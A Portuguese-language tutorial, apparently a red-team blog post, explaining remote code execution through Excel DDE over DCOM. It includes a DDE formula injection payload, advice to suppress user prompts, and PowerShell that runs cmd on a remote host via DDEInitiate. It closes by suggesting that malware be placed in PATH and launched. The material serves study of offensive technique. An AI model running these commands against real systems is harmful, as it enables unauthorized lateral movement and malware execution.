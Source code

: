 - Requer privilégio de administrador local no alvo
- Requer o Microsoft Excel instalado no alvo
- Capacidade de gravar remotamente um arquivo no PATH do sistema

Agora podemos continuar;

![a](https://www.maisaprendizagem.com.br/wp-content/uploads/2019/10/m%C3%A3o-na-massa.png)

O mecanismo **DDE** pode ser utilizado pra realizar a execução de código sem macros em documentos do **Office**.

Essa técnica funciona fazendo com que o **Excel** avalie uma expressão (tipo `"=cmd|' /C calc'!A0"`) que exige que os dados sejam transmitidos via **DDE** de outro aplicativo.

Isso permite que um atacante especifique uma linha de comando arbitrária como o servidor **DDE** a ser executado, realizando, assim, uma execução arbitrária de código. \o/

Mas para realizar a técnica eu poderia usar o método `DDEInitiate`, citado por mim como `ExcelDDE`.

O `DDEInitiate` estabelece um canal **DDE** entre um aplicativo e um servidor **DDE**. Depois que um canal é estabelecido, o aplicativo pode solicitar dados do servidor fazendo referência ao canal nas funções **DDE** seguintes. O aplicativo atua como cliente, solicitando dados do aplicativo servidor por meio do canal.

Se o canal for estabelecido sem erros o `DDEInitiate` retornará o número do canal. Os números dos canais são não negativos e o número de canais que você pode estabelecer é limitado apenas pelos recursos do sistema.

> Para evitar que perguntem se o usuário deseja abrir o aplicativo, você pode definir a opção **SAFETY** do `DDESetOption`.

Exemplo:
```vbscript
channelNumber = Application.DDEInitiate( _ 
 app:="WinWord", _ 
 topic:="C:\WINWORD\DOCUMENTO.DOC") 
Application.DDEExecute channelNumber, "[FILEPRINT]" 
Application.DDETerminate channelNumber
```
O exemplo acima abre um canal para o **Word**, abre o documento do **Word** `documento.doc` e envia o comando **FilePrint** para o **WordBasic**.

Podemos fornecer `cmd` como o parâmetro do `DDEInitiate` enquanto o outro parâmetro pode ser qualquer argumento de linha de comando escolhido.

Na teoria é simples, agora vamos tentar executar o método:
```powershell
$Com = [Type]::GetTypeFromProgID("Excel.Application","192.168.2.10")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c calc.exe")
```
Explicando cada coisa: 
- `$Com = [Type]::GetTypeFromProgID("Excel.Application","192.168.2.10)` Pega as informações de tipo para o aplicativo **Excel** no computador especificado.
- `$Obj = [System.Activator]::CreateInstance($Com)` Cria uma instância do aplicativo **Excel** com as informações.
- `$Obj.DisplayAlerts = $false` Define a propriedade `DisplayAlerts` do objeto do aplicativo **Excel** como `false`, tirando os alertas e as mensagens de aviso.
- `$Obj.DDEInitiate("cmd", "/c calc.exe")` Inicia uma conversa **DDE** com o `calc.exe`.
# Conclusão
Essa técnica pode resultar em um impacto significativo porque permite que os atacantes rodem um executável mal-intencionado em qualquer máquina que tenha o **Microsoft Office** instalado desde que tenham direitos administrativos na máquina, o atacante poderia upar um malware, colocar no **PATH** e executar o malware por um método tipo `ActivateMicrosoftApp()`.
